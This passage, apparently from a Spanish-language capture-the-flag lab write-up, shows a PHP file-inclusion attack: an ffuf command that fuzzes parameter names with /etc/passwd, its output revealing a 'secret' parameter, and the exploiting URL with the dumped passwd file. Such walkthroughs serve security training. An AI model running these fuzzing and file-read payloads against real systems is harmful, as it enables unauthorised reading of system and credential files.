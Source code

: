 Vemos que la pagina esta en `PHP` por lo que `fuzzearemos` a ver si encontramos algun parametro vulnerable para leer archivos del sistema:

## Escalate user vaxei

### FFUF

```shell
ffuf -u http://<IP>/index.php?FUZZ=/etc/passwd -w <WORDLIST> -fs 2596
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2596
________________________________________________

secret                  [Status: 200, Size: 3870, Words: 678, Lines: 89, Duration: 2ms]
:: Progress: [20469/20469] :: Job [1/1] :: 140 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Vemos que hemos descubierto el parametro `secret` que es vulnerable, por lo que veremos el listado de usuarios.

```
URL = http://<IP>/index.php?secret=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
```